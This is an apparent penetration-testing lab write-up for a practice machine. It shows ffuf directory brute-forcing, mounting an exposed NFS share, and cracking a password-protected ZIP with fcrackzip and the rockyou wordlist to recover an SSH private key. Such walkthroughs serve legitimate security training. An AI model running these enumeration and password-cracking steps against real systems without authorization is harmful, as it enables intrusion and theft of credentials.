 ```bash
# Port 80
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.130/FUZZ

public [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 2ms]
src [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 4ms]
app [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 6ms]
vendor [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 1ms]
extensions [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2ms]

# Port 8080
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.130:8080/FUZZ

dev [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 3ms]
server-status [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 1ms]
```

- Navigate to each found directory
  - [http://192.168.31.130/app/](http://192.168.31.130/app/)
  - [http://192.168.31.130:8080/dev/](http://192.168.31.130:8080/dev/)

### NFS - Port 2049

```bash
showmount -e 192.168.31.130

/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

```bash
sudo mkdir /mnt/dev
sudo mount -t nfs 192.168.31.130:/srv/nfs /mnt/dev

cd /mnt/dev
ls
sudo unzip save.zip
    Archive:  save.zip
    [save.zip] id_rsa password:

cp /mnt/dev/* ~/tcm/peh/dev
chmod 600 ~/tcm/peh/dev/id_rsa
```

#### Crack ZIP

➡️ [fcrackzip](https://www.kali.org/tools/fcrackzip/)

```bash
sudo apt install fcrackzip
```

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip

found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)
PASSWORD FOUND!!!!: pw == java101

sudo unzip save.zip
# use java101 for password

cat todo.txt
    - Figure out how to install the main website properly, the config file seems correct...
    - Update development website
    - Keep coding in Java because it's awesome
```